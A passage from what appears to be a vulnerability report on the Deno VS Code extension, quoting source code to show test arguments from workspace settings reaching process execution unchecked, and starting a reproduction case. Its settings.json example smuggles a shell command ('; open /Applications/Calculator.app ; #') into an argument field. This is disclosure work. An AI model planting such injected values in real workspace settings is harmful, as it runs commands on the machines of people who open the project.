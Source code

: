         const definition: tasks.DenoTaskDefinition = {
          type: tasks.TASK_TYPE,
          command: "test",
          args, // <-- Args passed to task definition
          env,
        };
        // ...
        const task = tasks.buildDenoTask( // <-- Task is built with the args
          workspaceFolder,
          denoCommand,
          definition,
          `test "${name}"`,
          args,
          ["$deno-test"],
        );
        // ...
        await vscode.tasks.executeTask(task); // <-- Task execution
        // ...
      };
    }

    // client\src\tasks.ts
    export function buildDenoTask(
      target: vscode.WorkspaceFolder,
      process: string,
      definition: DenoTaskDefinition,
      name: string,
      args: string[],
      problemMatchers: string[],
    ): vscode.Task {
      const exec = new vscode.ProcessExecution( // <-- ProcessExecution is created
        process,
        args, // <-- User-provided args are passed directly
        definition,
      );

      return new vscode.Task(
        definition,
        target,
        name,
        TASK_SOURCE,
        exec, // <-- ProcessExecution is used in task
        problemMatchers,
      );
    }
    ```

- **Security Test Case:**
    1. Create a new directory and initialize it as a Git repository.
    2. Create a file named `.vscode/settings.json` inside the directory with the following content:
    ```json
    {
        "deno.enable": true,
        "deno.codeLens.testArgs": [
            "--allow-read",
            "--allow-write",
            "--allow-net",
            "--allow-env",
            "--allow-run",
            "--allow-hrtime",
            "--allow-ffi",
            "--allow-sys",
            "--unstable",
            "; open /Applications/Calculator.app ; #"
        ]